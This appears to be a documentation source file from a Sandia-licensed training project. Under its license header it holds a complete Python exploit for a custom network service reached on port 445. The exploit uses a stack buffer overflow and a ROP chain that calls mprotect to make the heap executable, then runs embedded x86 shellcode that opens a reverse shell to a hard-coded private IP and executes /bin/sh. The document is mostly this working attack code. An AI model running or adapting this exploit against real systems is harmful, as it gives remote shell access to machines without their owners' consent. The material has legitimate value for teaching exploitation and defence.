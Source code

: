 .. Copyright 2022 National Technology & Engineering Solutions of Sandia, LLC
   (NTESS).  Under the terms of Contract DE-NA0003525 with NTESS, the U.S.
   Government retains certain rights in this software.
   
   Redistribution and use in source and binary/rendered forms, with or without
   modification, are permitted provided that the following conditions are met:
   
    1. Redistributions of source code must retain the above copyright notice,
       this list of conditions and the following disclaimer.
    2. Redistributions in binary/rendered form must reproduce the above copyright
       notice, this list of conditions and the following disclaimer in the
       documentation and/or other materials provided with the distribution.
    3. Neither the name of the copyright holder nor the names of its contributors
       may be used to endorse or promote products derived from this software
       without specific prior written permission.
   
   THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND
   ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED
   WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
   DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
   FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
   DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
   SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
   CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
   OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
   OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.

.. code::

 import socket
 import sys
 import hexdump
 import struct
 
 # BOB_ADDRESS = 0x8074cf0 + 0x10 - 0x8
 BOB_OFFSET_ADDRESS = 0x8074cf0 + 0x10 + 0x2f76ef36
 SYSCALL_GADGET = 0xffffe422
 REPLACEMENT_BYTES = struct.pack("<I", 0xABCDEFAB)
 
 
 def get_shell_code():
     shellcode =  b""
     shellcode += b"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1"
     shellcode += b"\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49"
     shellcode += b"\x79\xf9\x68\xac\x10\x3d\x8a\x68\x02\x00\x15"
     shellcode += b"\xb3\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89"
     shellcode += b"\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f"
     shellcode += b"\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b"
     shellcode += b"\xcd\x80"
 
 
     return shellcode
 
 
 def craft_decode(str_to_encode, pad_char =  ' ', end = 'A'):
     # Just being silly, because this is a 5-minute thing
     if len(str_to_encode) > 0xF:
         str_to_encode = str_to_encode[:0xF + 1]
 
     str_to_encode += pad_char * (0xF - len(str_to_encode))
     str_to_encode += end
 
     component_ints = list()
     for c in str_to_encode:
         component_ints.append(ord(c) // 0x10)
         component_ints.append(ord(c) % 0x10)
     component_chars = [chr(x + 0x41) for x in component_ints]
 
     return ''.join(component_chars)
 
 
 def decode_str(str_to_decode):
     if len(str_to_decode) % 2 != 0:
         return None
 
     final_str = ""
     for i in range(0, len(str_to_decode), 2):
         c1 = (ord(str_to_decode[i]) - 0x41) * 0x10
         c2 = ord(str_to_decode[i + 1]) - 0x41
         c = c1 | c2
         final_str += chr(c)
 
     return final_str
 
 
 def craft_payload():
     # The number of bytes we have before the return address
     # The subtracted value is because we end up with a NULL in there
     total_overrun_buffer_size = 0x40 - 0x1
 
     # We need in 0x22 bytes ahead of our structured buffer
     padding = b'\x01' * 0x22
 
     # ---- Structured buffer ----
 
     # This will decode normally within the function
     # I'm not sure it's necessary, but maybe less likely to break things?
     # I'm certain there are other options too
     encoded_str = craft_decode("HELLO WORLD")
     # Stick the bytes that will decode validly at the front
     payload_core = struct.pack("<B", len(encoded_str))
     payload_core += encoded_str.encode("utf-8")
 
     # Now, for the interesting things, which will be overwriting
     # the rest of the stack
 
     # So, at the front, we just have some padding
     overflow_bytes = b'\x01' * (total_overrun_buffer_size - len(encoded_str))
 
     # And here we begin the ROP chain
 
     # Gadgets:
     # 0x0804f7da: pop eax; pop ebx; pop epb; ret;
     # 0xffffe425: pop edx; pop ecx; ret;
     # 0x0804f672: add eax, dword ptr [ebx - 0x2f76ef36]; pop ebp; ret;
     # 0x0804e153: jmp eax;
 
     # --- Make the heap executable ---
     # Setup
     overflow_bytes += struct.pack("<I", 0x0804f7da) # pop eax; pop ebx; pop epb; ret;
     overflow_bytes += struct.pack("<I", 0x7d) # eax - sys call code
     overflow_bytes += struct.pack("<I", 0x8072000) # ebx - heap address
     overflow_bytes += struct.pack("<I", 0x0) # ebp - N/A
 
     overflow_bytes += struct.pack("<I", 0xffffe425) # pop edx; pop ecx; ret;
     overflow_bytes += struct.pack("<I", 0x07) # edx - RWX flag
     overflow_bytes += struct.pack("<I", 0x14000) # ecx - size of heap
 
     # And, run
     overflow_bytes += struct.pack("<I", 0xffffe422) # int 0x80; pop ebp; pop edx; pop ecx; ret
 
     overflow_bytes += struct.pack("<I", 0x0) # ebp - N/A
     overflow_bytes += struct.pack("<I", 0x0) # edx - N/A
     overflow_bytes += struct.pack("<I", 0x0) # ecx - N/A
 
     # --- Get into the payload ---
 
     # Use the first one again to set up eax and ebx
     overflow_bytes += struct.pack("<I", 0x804f7da) # pop eax; pop ebx; pop epb; ret;
     # Setting this to a value we'll *replace* as soon as we know our actual offset
     overflow_bytes += REPLACEMENT_BYTES # eax - offset into our buffer where our code is
     overflow_bytes += struct.pack("<I", BOB_OFFSET_ADDRESS) # ebx - Our weirdly offset address to Bob
     overflow_bytes += struct.pack("<I", 0x0) # ebp - N/A
 
     # Now for the calculation
     overflow_bytes += struct.pack("<I", 0x804f672) # add eax, dword ptr [ebx - 0x2f76ef36]; pop ebp; ret;
     overflow_bytes += struct.pack("<I", 0x0) # ebp - N/A
 
     # And jump!
     overflow_bytes += struct.pack("<I", 0x804e153) # jmp eax;
 
     # Finish the structured buffer
 
     # Add the overflow bytes to the structured bit
     payload_core += struct.pack("<B", len(overflow_bytes))
     payload_core += overflow_bytes
 
     # And now a clean finish
     payload_core += struct.pack("<B", 0)
 
     # ---- Add the actual shell code ----
     # Just some test bytes for now
     shell_code = get_shell_code()
 
     # Header size + padding + the core
     offset_to_shell = 0x4 + len(padding) + len(payload_core)
     payload_core = payload_core.replace(REPLACEMENT_BYTES, struct.pack("<I", offset_to_shell))
 
     # Put together the header (waited until here to throw in a size that matches what
     # we have. Necessary to match actual size? Not sure. Might just need it to be biggish)
     # Start with 0x81, the message type that will take us down the path we want
     payload_header = b'\x81'
     # Add the size val. It's 3 bytes, which is a little odd, so slice off the first one
     size_bytes = struct.pack(">I", len(padding) + len(payload_core) + len(shell_code))
     size_bytes = size_bytes[1:]
     payload_header += size_bytes
 
     payload = payload_header + padding + payload_core + shell_code
 
     return payload
 
 
 def main():
     payload = craft_payload()
 
     if len(sys.argv) != 2:
         print("{} ip".format(sys.argv[0]))
         sys.exit(1)
 
     ip = sys.argv[1]
     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
     s.connect((ip, 445))
     s.sendall(payload)
 
     data = s.recv(1000)
     print(hexdump.hexdump(data))
 
 
 if __name__ == '__main__':
     main()
 
